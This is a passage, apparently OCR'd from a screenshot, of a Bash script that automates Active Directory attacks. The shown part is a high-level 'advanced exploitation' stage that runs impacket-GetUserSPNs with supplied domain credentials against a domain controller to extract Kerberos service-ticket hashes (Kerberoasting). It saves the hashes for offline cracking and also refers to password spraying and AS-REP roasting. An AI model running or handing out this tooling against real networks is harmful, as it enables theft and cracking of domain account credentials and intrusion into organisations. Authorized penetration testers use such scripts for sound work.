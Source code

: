             echo -e "${RED}[!] Cannot perform password spraying: No AD credentials provided or no user list available for spraying.${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
        fi
    fi

    # 4.3. Advanced: Extract and attempt to crack Kerberos tickets using pre-supplied passwords.
    if [ "$EXPLOIT_LEVEL" -ge 3 ]; then
        echo -e "${GREEN}[+] 4.3. Advanced Exploitation: Extracting and attempting to crack Kerberos tickets.${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
        if [ -z "$AD_USER" ] || [ -z "$AD_PASS" ] || [ -z "$DOMAIN_CONTROLLER_IP" ]; then
            echo -e "${YELLOW}[!] WARNING: Advanced Exploitation (Kerberoasting/AS-REP Roasting) requires AD credentials and a discovered DC IP. Skipping.${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
            return # Skip if credentials or DC IP are missing
        fi
        if [ -z "$AD_DOMAIN_NAME" ]; then # Changed from DOMAIN_NAME
            echo -e "${RED}[!] ERROR: Advanced Enumeration (Level 3) requires a domain name to be provided. Skipping.${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
            return # Skip if domain name is missing
        fi

        echo -e "${GREEN}[+] Performing Advanced Exploitation: Kerberoasting and AS-REP Roasting${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"

        local kerb_hashes_file="${OUTPUT_DIR}/kerberoast_hashes.txt"
        local asrep_hashes_file="${OUTPUT_DIR}/asrep_hashes.txt"
        local cracked_asrep_file="${OUTPUT_DIR}/cracked_asrep.txt"
        local cracked_kerb_file="${OUTPUT_DIR}/cracked_kerb.txt"
        local users_file="${OUTPUT_DIR}/domain_users.txt" # Ensure users file is available for AS-REP

        # --- Kerberoasting ---
        echo -e "\n--- Kerberoasting: Ticket Extraction (Impacket GetUserSPNs) ---" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
        
        start_spinner "Extracting Kerberos tickets"
        echo # Newline after spinner start
        rm -f "$kerb_hashes_file" # Clean old output file
        # Corrected syntax for impacket-GetUserSPNs
        local kerb_extract_cmd_array=(impacket-GetUserSPNs "${AD_DOMAIN_NAME}/${AD_USER}:${AD_PASS}" -dc-ip "$DOMAIN_CONTROLLER_IP" -request -outputfile "$kerb_hashes_file") # Changed from DOMAIN_NAME
        echo -e "${CYAN}Executing: ${BLUE}${kerb_extract_cmd_array[*]}${NC}" | tee -a "$EXPLOITATION_LOG"
        local kerb_extract_output=$("${kerb_extract_cmd_array[@]}" 2>&1) # Strip ANSI codes
        echo "$kerb_extract_output" | tee -a "$EXPLOITATION_LOG"
        stop_spinner
        echo # Newline after spinner
